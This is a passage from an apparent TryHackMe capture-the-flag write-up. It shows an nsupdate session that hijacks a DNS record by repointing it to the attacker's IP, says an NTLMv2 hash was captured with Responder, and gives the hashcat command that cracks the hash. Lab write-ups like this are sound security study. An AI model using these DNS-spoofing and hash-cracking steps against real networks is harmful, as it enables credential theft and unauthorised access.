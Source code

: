 Now we abuse the insecure DNS records vulnerability.

```bash
nsupdate
> server 10.10.167.24
> update delete selfservice.windcorp.thm
> send
> update add selfservice.windcorp.thm 86400 A 10.14.98.235
> send
> quit
```

Successfully captured the hash with responder

![image.png](/assets/images/Ra2THM/image%2024.png)

Saved this hash to a hash.txt file.

Now we use Hashcat to crack this hash.

![image.png](/assets/images/Ra2THM/image%2025.png)

Running hashcat to crack this hash.

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

Successfully cracked this hash.
